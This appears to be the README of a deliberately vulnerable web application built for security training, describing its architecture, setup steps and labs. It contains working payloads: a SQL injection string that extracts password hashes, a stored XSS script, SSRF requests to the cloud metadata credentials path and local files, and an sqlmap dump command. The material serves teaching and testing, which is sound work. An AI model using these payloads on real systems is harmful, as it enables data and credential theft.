




# 🛡️ Vulnerable Web Application Security Lab

[](https://opensource.org/licenses/MIT)
[](https://www.docker.com/)
[](https://nodejs.org/)
[](https://reactjs.org/)
[](https://www.typescriptlang.org/)
[](https://www.postgresql.org/)


A comprehensive, intentionally vulnerable web application designed for cybersecurity education, penetration testing practice, and vulnerability research. Built with modern full-stack development practices while intentionally incorporating specific security vulnerabilities for educational exploitation and remediation learning.

## 🎯 Overview

This project provides a realistic web application environment with multiple security vulnerabilities that can be exploited for educational purposes. The system implements a three-tier architecture with React.js frontend, Node.js/Express backend, and PostgreSQL database, containerized using Docker for consistent development and deployment environments.



### Target Audience

- **Security Professionals** learning vulnerability assessment
- **Developers** understanding secure coding practices
- **Students** studying cybersecurity concepts
- **Penetration Testers** practicing their skills
- **Security Teams** conducting internal training
- **Educators** teaching secure development practices

## 🏗️ Architecture

### System Architecture



### Technology Stack

**Frontend Technologies:**
- **React.js 18+** with TypeScript for type safety and modern component architecture
- **Tailwind CSS** for responsive design and utility-first styling
- **Redux Toolkit** for centralized state management
- **Vite** for fast development builds and hot module replacement
- **Axios** for HTTP client with interceptors for authentication

**Backend Technologies:**
- **Node.js** with Express.js framework for RESTful API development
- **JWT (jsonwebtoken)** for authentication token management
- **Helmet.js** for security headers (to be disabled for vulnerability demonstration)
- **CORS middleware** for cross-origin resource sharing
- **Express-validator** for input validation (to be bypassed in vulnerable endpoints)

**Database Technologies:**
- **PostgreSQL 14+** for production-grade relational data storage
- **Prisma ORM** for type-safe database operations and schema management
- **Connection pooling** with pg-pool for performance optimization
- **Database migrations** for schema versioning

**Development and Deployment:**
- **Docker and Docker Compose** for containerized development
- **ESLint and Prettier** for code quality and formatting
- **Jest and React Testing Library** for unit and integration testing
- **Swagger/OpenAPI** for API documentation

## ✨ Features

### 🔧 Application Stack
- **Frontend**: React 18 + TypeScript + Vite + Tailwind CSS
- **Backend**: Node.js + Express + TypeScript
- **Database**: PostgreSQL with Prisma ORM
- **Authentication**: JWT-based with refresh tokens
- **File Upload**: Multi-format support with validation
- **Real-time**: WebSocket connections for live updates

### 🛡️ Security Vulnerabilities Included

**Core OWASP Top 10 Vulnerabilities:**
- **SQL Injection (CWE-89)** - Union-based, Boolean-based, and Time-based attacks
- **Cross-Site Scripting (CWE-79)** - Stored, Reflected, and DOM-based XSS
- **Insecure Direct Object References (CWE-639)** - Authorization bypass vulnerabilities
- **Server-Side Request Forgery (CWE-918)** - Internal network and cloud metadata access
- **Local File Inclusion (CWE-22)** - Path traversal and file system access
- **Insecure Session Management (CWE-384)** - Weak JWT secrets and localStorage storage
- **Security Misconfiguration (CWE-16)** - Disabled security headers and verbose errors
- **Sensitive Data Exposure (CWE-200)** - Information disclosure in error messages
- **Broken Access Control (CWE-285)** - Inconsistent authorization checks
- **Cross-Site Request Forgery (CWE-352)** - State-changing request vulnerabilities

## 🔌 API Architecture

### Endpoint Structure

```
/api/auth
├── POST /register - User registration with email verification
├── POST /login - User authentication and JWT token generation
├── POST /logout - Session invalidation
└── POST /refresh - JWT token refresh

/api/tasks
├── GET / - Retrieve user tasks (vulnerable to IDOR)
├── POST / - Create new task
├── GET /:id - Get specific task (vulnerable to IDOR)
├── PUT /:id - Update task (vulnerable to IDOR)
├── DELETE /:id - Delete task (vulnerable to IDOR)
└── GET /search - Search tasks (vulnerable to SQL injection)

/api/comments
├── GET /task/:taskId - Get task comments
├── POST /task/:taskId - Add comment (vulnerable to XSS)
└── DELETE /:id - Delete comment (vulnerable to IDOR)

/api/users
├── GET /profile - Get user profile
├── PUT /profile - Update user profile
├── POST /avatar - Upload/fetch profile picture (vulnerable to SSRF)
└── GET /files/:filename - Serve uploaded files (vulnerable to path traversal)

/api/tasks/import
└── POST / - Import tasks from external URL (vulnerable to SSRF)
```

### 📊 Monitoring & Logging
- **Real-time Attack Detection**
- **Comprehensive Security Logging**
- **Performance Monitoring**
- **Audit Trails**
- **Attack Pattern Analysis**
- **Automated Alerting**

## 🧪 Interactive Vulnerability Management System

### Security Lab Dashboard

The application includes a dedicated **Security Lab** page that provides an interactive learning environment where users can toggle between vulnerable and secure code implementations in real-time.



### Vulnerability Labs

**1. SQL Injection Lab (CWE-89)**
- Union-based injection attacks
- Boolean-based blind injection
- Time-based blind injection
- Real-time code comparison
- Live payload testing

**2. Cross-Site Scripting Lab (CWE-79)**
- Stored XSS in comment system
- DOM-based XSS manipulation
- Session hijacking demonstrations
- Content sanitization examples

**3. IDOR Lab (CWE-639)**
- Authorization bypass techniques
- Task enumeration attacks
- Access control violations
- Secure authorization patterns

**4. Session Management Lab (CWE-384)**
- Weak JWT implementation
- localStorage vs httpOnly cookies
- Token refresh mechanisms
- Session hijacking prevention

**5. SSRF/LFI Lab (CWE-918, CWE-22)**
- Cloud metadata exploitation
- Internal network scanning
- Local file inclusion
- Path traversal attacks

## 🗄️ Database Schema

### Entity Relationship Diagram



### 🐳 Containerization
- **Multi-stage Docker builds**
- **Production-optimized images**
- **Security-hardened containers**
- **Health checks & monitoring**
- **Environment-specific configurations**

## 🚀 Quick Start Guide

### Prerequisites
- **Docker & Docker Compose** (required)
- **Node.js 18+** (for local development)
- **Git** (for cloning)

### 1. Clone and Setup
```bash
git clone https://github.com/Haseeb-1698/vulnerable-webapp.git
cd vulnerable-webapp

# Install root dependencies (includes concurrently)
npm install
```

### 2. Start Database
```bash
# Start PostgreSQL database container
docker-compose up postgres -d

# Verify database is running
docker ps
# Should show: vulnerable-webapp-db container running on port 5432
```

### 3. Setup Backend
```bash
cd backend

# Install dependencies
npm install

# Copy environment file
cp .env.example .env

# Generate Prisma client
npm run db:generate

# Run database migrations (creates tables)
npm run db:migrate

# Seed database with sample data
npm run db:seed
```

### 4. Setup Frontend
```bash
cd ../frontend

# Install dependencies  
npm install

# Copy environment file (if exists)
cp .env.example .env 2>/dev/null || true
```

### 5. Start Development Servers
```bash
# From project root - starts both frontend and backend
npm run dev

# OR start individually:
# Backend: cd backend && npm run dev
# Frontend: cd frontend && npm run dev
```

### 6. Access Application
- **Frontend**: http://localhost:3000
- **Backend API**: http://localhost:3001
- **Database**: localhost:5432 (accessible via tools like pgAdmin)


## 📚 Documentation

### 📖 Comprehensive Guides
- **[Project Structure](docs/PROJECT_STRUCTURE.md)** - Detailed architecture overview
- **[Deployment Guide](docs/DEPLOYMENT.md)** - GCP, Docker, and Kubernetes deployment
- **[Vulnerability Documentation](docs/vulnerabilities/)** - Detailed vulnerability explanations

### 🔍 Vulnerability Documentation
- **[SQL Injection](docs/vulnerabilities/sql-injection.md)** - Database exploitation techniques
- **[Cross-Site Scripting (XSS)](docs/vulnerabilities/xss.md)** - Client-side attack vectors
- **[Insecure Direct Object References (IDOR)](docs/vulnerabilities/idor.md)** - Authorization bypass
- **[Server-Side Request Forgery (SSRF)](docs/vulnerabilities/ssrf-lfi.md)** - Server exploitation
- **[Session Management](docs/vulnerabilities/session-management.md)** - Authentication flaws
- **[Business Impact Assessment](docs/vulnerabilities/business-impact-assessment.md)** - Risk analysis
- **[Exploitation Tutorials](docs/vulnerabilities/exploitation-tutorials.md)** - Step-by-step guides


## 🐳 Docker Deployment

### Development Environment
```bash
docker-compose up -d
```

### Production Environment
```bash
docker-compose -f docker-compose.prod.yml up -d
```

### Security-Hardened Environment
```bash
docker-compose -f docker-hardening.yml up -d
```

### With Monitoring Stack
```bash
docker-compose -f docker-compose.yml -f docker-compose.monitoring.yml up -d
```


## 🧪 Testing & Security Scanning

### Comprehensive Testing Framework

**1. Automated Security Testing:**
```javascript
// Jest test for SQL injection vulnerability
describe('SQL Injection Tests', () => {
  test('should be vulnerable to union-based injection', async () => {
    const maliciousQuery = "' UNION SELECT id, email, password_hash FROM users--";
    
    const response = await request(app)
      .get(`/api/tasks/search?query=${encodeURIComponent(maliciousQuery)}`)
      .set('Authorization', `Bearer ${validToken}`);
    
    // Verify that sensitive data is exposed
    expect(response.body).toContainEqual(
      expect.objectContaining({
        email: expect.any(String),
        password_hash: expect.any(String)
      })
    );
  });
});
```

**2. XSS Testing Suite:**
```javascript
describe('XSS Vulnerability Tests', () => {
  test('should execute stored XSS in comments', async () => {
    const xssPayload = '<script>window.xssExecuted = true;</script>';
    
    // Create comment with XSS payload
    await request(app)
      .post(`/api/comments/task/${taskId}`)
      .set('Authorization', `Bearer ${validToken}`)
      .send({ content: xssPayload });
    
    // Verify payload is stored without sanitization
    const response = await request(app)
      .get(`/api/comments/task/${taskId}`)
      .set('Authorization', `Bearer ${validToken}`);
    
    expect(response.body[0].content).toBe(xssPayload);
  });
});
```

**3. SSRF and LFI Testing Suite:**
```javascript
describe('SSRF Vulnerability Tests', () => {
  test('should allow access to cloud metadata service', async () => {
    const ssrfPayload = {
      importUrl: 'http://169.254.169.254/latest/meta-data/iam/security-credentials/',
      format: 'json'
    };
    
    const response = await request(app)
      .post('/api/tasks/import')
      .set('Authorization', `Bearer ${validToken}`)
      .send(ssrfPayload);
    
    expect(response.status).toBe(200);
    expect(response.body.metadata).toBeDefined();
  });
});
```

### Automated Security Scanning
```bash
# Run comprehensive security scan
.\scripts\security-scan.ps1

# Skip build if containers exist
.\scripts\security-scan.ps1 -SkipBuild
```

### Manual Testing Scripts
```bash
# Test XSS vulnerabilities
.\scripts\test-xss.ps1

# Test IDOR vulnerabilities
.\scripts\test-idor.ps1

# Test session management
.\scripts\test-session-management.ps1
```

### Advanced Exploitation Examples

**SQLMap Testing Configuration:**
```bash
# SQLMap test script
sqlmap -u "http://localhost:3000/api/tasks/search?query=test" \
       --cookie="token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..." \
       --dbs \
       --dump-all \
       --batch
```

**Advanced SSRF Testing:**
```bash
# SSRF payload for cloud metadata
curl -X POST http://localhost:3000/api/tasks/import \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"importUrl":"http://169.254.169.254/latest/meta-data/","format":"json"}'

# Internal network scanning
curl -X POST http://localhost:3000/api/users/avatar \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"imageUrl":"http://localhost:22","fetchFromUrl":true}'

# Local file inclusion
curl -X POST http://localhost:3000/api/users/avatar \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"imageUrl":"file:///proc/version","fetchFromUrl":true}'
```

### Penetration Testing Integration
- **Burp Suite** integration with automated scanning
- **OWASP ZAP** automation and reporting
- **SQLMap** integration for SQL injection testing
- **Custom exploit scripts** for advanced testing
- **Nmap** integration for network scanning

## 📊 Monitoring & Observability

### Real-time Dashboards
- **Attack Detection**: Live security event monitoring
- **Performance Metrics**: Application performance tracking
- **User Activity**: Real-time user behavior analysis
- **System Health**: Container and service status

### Logging & Alerting
- **Security Events**: Detailed attack logging
- **Audit Trails**: Complete user action tracking
- **Performance Logs**: Application performance data
- **System Logs**: Infrastructure monitoring

## 🔒 Security Features

### Built-in Security Controls
- **Rate Limiting**: API request throttling
- **Input Validation**: Comprehensive input sanitization
- **Authentication**: JWT with refresh token rotation
- **Authorization**: Role-based access control
- **File Upload Security**: Type and size validation
- **CORS Configuration**: Cross-origin request handling

### Security Headers
- **Content Security Policy (CSP)**
- **X-Frame-Options**
- **X-Content-Type-Options**
- **Strict-Transport-Security**
- **X-XSS-Protection**

## 🎓 Educational Benefits

### Learning Objectives

**For Security Professionals:**
- Hands-on experience with real-world vulnerability exploitation
- Understanding of attack vectors and mitigation strategies
- Practice with industry-standard penetration testing tools
- Experience with security assessment methodologies

**For Developers:**
- Understanding of common coding mistakes that lead to vulnerabilities
- Learning secure coding practices and patterns
- Experience with security testing and validation
- Knowledge of OWASP Top 10 vulnerabilities

**For Students:**
- Practical application of cybersecurity theory
- Interactive learning through hands-on exploitation
- Understanding of full-stack security considerations
- Experience with modern web application security

### Interactive Learning Features

- **Real-time Code Comparison**: Side-by-side vulnerable vs secure implementations
- **Live Attack Testing**: Execute attacks and see immediate results
- **Toggle Functionality**: Switch between vulnerable and secure modes instantly
- **Comprehensive Documentation**: Detailed explanations of each vulnerability
- **Progressive Difficulty**: Start with basic attacks and progress to advanced techniques


## 📁 Project Structure

```
vulnerable-webapp/
├── backend/                 # Node.js backend application
│   ├── src/
│   │   ├── routes/         # API route handlers
│   │   │   ├── auth.ts     # Authentication endpoints
│   │   │   ├── tasks.ts    # Task management (IDOR vulnerable)
│   │   │   ├── comments.ts # Comment system (XSS vulnerable)
│   │   │   ├── users.ts    # User management (SSRF vulnerable)
│   │   │   └── security-lab.ts # Security testing endpoints
│   │   ├── middleware/     # Express middleware
│   │   │   ├── auth.ts     # JWT authentication
│   │   │   ├── logging.ts  # Security logging
│   │   │   └── secureAuth.ts # Secure authentication
│   │   ├── utils/          # Utility functions
│   │   └── types/          # TypeScript type definitions
│   ├── tests/              # Comprehensive test suites
│   │   ├── vulnerability/  # Security vulnerability tests
│   │   ├── penetration/    # Penetration testing integration
│   │   └── reporting/      # Test reporting utilities
│   ├── prisma/             # Database schema and migrations
│   └── Dockerfile          # Multi-stage container definition
├── frontend/               # React frontend application
│   ├── src/
│   │   ├── components/     # React components
│   │   │   ├── auth/       # Authentication components
│   │   │   ├── tasks/      # Task management components
│   │   │   ├── security-lab/ # Interactive vulnerability labs
│   │   │   └── monitoring/ # Real-time monitoring dashboard
│   │   ├── contexts/       # React contexts
│   │   │   ├── AuthContext.tsx # Authentication state
│   │   │   └── SecureAuthContext.tsx # Secure authentication
│   │   ├── utils/          # Frontend utilities
│   │   └── types/          # TypeScript type definitions
│   └── Dockerfile          # Multi-stage container definition
├── docs/                   # Comprehensive documentation
│   ├── vulnerabilities/    # Detailed vulnerability documentation
│   │   ├── sql-injection.md # SQL injection guide
│   │   ├── xss.md          # Cross-site scripting guide
│   │   ├── idor.md         # IDOR vulnerability guide
│   │   ├── ssrf-lfi.md     # SSRF and LFI guide
│   │   ├── session-management.md # Session security guide
│   │   ├── exploitation-tutorials.md # Step-by-step tutorials
│   │   └── business-impact-assessment.md # Risk analysis
│   ├── DEPLOYMENT.md       # Deployment guide
│   └── PROJECT_STRUCTURE.md # Architecture documentation
     # Application configuration
│   ├── secret.yaml         # Sensitive configuration
│   ├── postgres.yaml       # Database deployment
│   ├── backend.yaml        # Backend service deployment
│   ├── frontend.yaml       # Frontend service deployment
│   └── ingress.yaml        # Load balancer configuration
├── scripts/                # Deployment and testing scripts
│   ├── deploy.ps1          # PowerShell deployment script
│   ├── security-scan.ps1   # Security scanning automation
│   ├── test-*.ps1          # Vulnerability testing scripts
│   └── github-setup.sh     # GitHub repository setup
├── .github/workflows/      # CI/CD automation
│   └── docker-build.yml    # Automated Docker builds
├── monitoring/             # Monitoring stack configuration
│   ├── prometheus/         # Metrics collection
│   └── logstash/           # Log aggregation
├── docker-compose.yml      # Development environment
├── docker-compose.prod.yml # Production environment
├── docker-compose.monitoring.yml # Monitoring stack
└── docker-hardening.yml    # Security-hardened environment
```

## 🤝 Contributing

We welcome contributions! Please see our [Contributing Guidelines](CONTRIBUTING.md) for details.

### How to Contribute
1. Fork the repository
2. Create a feature branch (`git checkout -b feature/amazing-feature`)
3. Commit your changes (`git commit -m 'Add amazing feature'`)
4. Push to the branch (`git push origin feature/amazing-feature`)
5. Open a Pull Request

### Development Guidelines
- Follow TypeScript best practices
- Write comprehensive tests
- Update documentation
- Follow security-first principles
- Use conventional commit messages

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## ⚠️ Disclaimer

This software is provided for educational purposes only. The authors are not responsible for any misuse or damage caused by this software. Users are responsible for ensuring compliance with applicable laws and regulations.

**Important Security Notes:**
- This application contains intentional vulnerabilities
- Do not deploy to production environments
- Use only in isolated, controlled environments
- Regularly update dependencies and security patches
- Follow responsible disclosure practices

## 🙏 Acknowledgments

- **OWASP** for vulnerability classification and guidelines
- **Security Community** for vulnerability research and documentation
- **Open Source Contributors** for the amazing tools and libraries used

## 📞 Support

- **Documentation**: Check the `docs/` directory
- **Issues**: Create a GitHub issue for bugs or feature requests
- **Discussions**: Use GitHub Discussions for questions and community support
- **Security**: Report security issues privately via GitHub Security Advisories

---

<div align="center">

**Made with ❤️ for the Security Community**

[⭐ Star this repo](https://github.com/yourusername/vulnerable-webapp) • [🐛 Report Bug](https://github.com/yourusername/vulnerable-webapp/issues) • [💡 Request Feature](https://github.com/yourusername/vulnerable-webapp/issues)

</div>
